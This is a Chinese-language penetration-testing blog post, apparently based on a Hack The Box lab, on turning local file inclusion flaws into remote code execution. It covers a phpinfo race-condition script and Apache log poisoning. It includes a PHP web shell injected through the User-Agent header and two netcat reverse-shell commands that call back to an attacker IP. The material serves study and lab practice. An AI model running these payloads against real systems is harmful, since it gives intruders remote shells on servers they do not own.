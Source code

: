```yaml
---
title: LFI漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
---
```




# LFI 漏洞的利用

---

[参考链接1](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5)

[参考链接2](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

- LFI(本地文件包含漏洞)，这篇文章将介绍有关该漏洞的一些利用

###  1、phpinfo 漏洞信息利用

- 将LFI漏洞转变为远程代码执行（RCE）漏洞的竞争条件，服务器端需要满足以下条件：
    - LFI漏洞
    - 任何显示PHPInfo()配置输出的脚本
- [**脚本下载地址**](https://github.com/mxrmiss/Automation-script/blob/03406f1e18b9cbdcf832941b3bad224d99a0f55e/phpinfo.py)

- 得到脚本后，我们需要修改脚本中的攻击载荷, 使用命令 `locate php-reverse` 定位可用的php载荷位置

```
/usr/share/laudanum/php/php-reverse-shell.php
```

- 将载荷中的内容复制到脚本中, 替换图片中横线部分

![1](https://herozql.oss-cn-beijing.aliyuncs.com/p/o/1.png)

- 修改载荷中的IP地址和端口，然后将脚本的 LFIREQ 参数更改为我们在burpsuit中看到的参数。如：

```
LFIREQ="""GET /browse.php?file=%s
```

- 我们还必须将所有“=>”更改为“=>”，以便脚本正确编译。

- 然后使用nc接收反弹的shell
- 运行脚本 `python3 phpinfo.py xxxip xxxport` (受害者ip和端口)

### 2、日志中毒

- 原理
    - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
    - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。

- 我们需要定位到日志文件的位置，这里以apache为例，通过google我们可以知道配置文件一般在 `/usr/local/etc/apache24/httpd.conf` 目录，查看配置文件，我们可以找到日志文件位置：

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log"
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

- 通过修改参数c的值，我们可以在网页得到不同的结果

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 查看本地监听器，会发现有结果了